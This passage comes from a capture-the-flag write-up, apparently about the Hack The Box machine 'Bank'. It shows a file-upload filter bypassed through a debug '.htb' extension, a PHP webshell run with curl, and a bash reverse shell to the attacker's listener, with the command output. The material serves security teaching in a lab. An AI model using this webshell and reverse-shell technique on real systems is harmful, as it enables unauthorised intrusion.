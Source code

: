 ![image-20200701075707269](https://0xdfimages.gitlab.io/img/image-20200701075707269.png)

The other two methods are trivially bypassed (by changing the Content-Type
header to that of an image and by starting the file out with the [magic
bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) of an image and
putting the PHP code later in the file). This one is more difficult. I can
upload the webshell, but trying to visit the webshell just returns an error:

![image-20200701075845918](https://0xdfimages.gitlab.io/img/image-20200701075845918.png)

That’s because the server is trying to process it as an image, and not as PHP,
so there’s no execution.

### Finding an Extension

I tried a handful of [other
extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
that commonly will be executed as PHP, but all were blocked.

In looking the source for `support.php`, there’s a comment:

    
    
    <!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] --
    

I changed the upload to `cmd.htb`, and it uploaded.

To test, I ran the `id` command, and it worked:

    
    
    root@kali# curl http://bank.htb/uploads/cmd.htb?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell

Now to get a shell, with `nc` listening on 443, I’ll issue the following
command to the webshell:

    
    
    root@kali# curl http://bank.htb/uploads/cmd.htb --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.41/443 0>&1"'
    

The connection comes back with a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.29.
    Ncat: Connection from 10.10.10.29:53542.
    bash: cannot set terminal process group (1076): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@bank:/var/www/bank/uploads$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
